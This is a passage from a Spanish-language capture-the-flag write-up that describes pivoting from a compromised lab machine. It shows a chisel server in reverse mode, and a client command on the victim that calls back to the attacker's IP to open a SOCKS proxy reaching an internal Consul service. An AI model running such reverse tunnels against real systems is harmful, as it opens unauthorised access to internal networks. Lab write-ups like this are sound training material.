Ahora, en nuestra máquina, vamos a quedarnos en escucha por el puerto 1234 con `chisel`.
```console
/usr/share/chisel server -p 1234 --reverse
2024/12/30 20:20:00 server: Reverse tunnelling enabled
2024/12/30 20:20:00 server: Fingerprint /GS2uuu8CuSxHQaH/dUjw3+JVz9NHiY6OYXj4G8npZA=
2024/12/30 20:20:00 server: Listening on http://0.0.0.0:1234
```

Ahora desde la máquina víctima, vamos a conectarnos a nuestro puerto en escucha y vamos a especificar que queremos crear un proxy de tipo SOCKS.
```console
./chisel client 10.10.14.103:1234 R:socks
2024/12/30 19:20:39 client: Connecting to ws://10.10.14.103:1234
2024/12/30 19:20:39 client: Connected (Latency 35.998443ms)
```

Ahora vemos que nuestro puerto local 1080 pertenece a un proxy de tipo SOCKS hacia la máquina víctima.
```console
2024/12/30 20:20:38 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Vamos a editar el archivo `/etc/proxychains4.conf` y añadir la siguiente línea.
![Write-up Image](images/Screenshot_32.png)

Esto lo he hecho por si tengo que utilizar alguna herramienta en local para la explotación de alguno de estos puertos.

[Según Google que me redireccionó a este post](https://discuss.hashicorp.com/t/port-8500-not-reachable-what-is-it/44766) tiene pinta de que el puerto 8500 corresponde a `Consul` de `Hashicorp`, al puerto que corresponde al servicio HTTP.

Para comprobarlo, podemos crear un nuevo proxy en `FoxyProxy` que corresponda al proxy de tipo SOCKS que acabamos de crear
![Write-up Image](images/Screenshot_33.png)
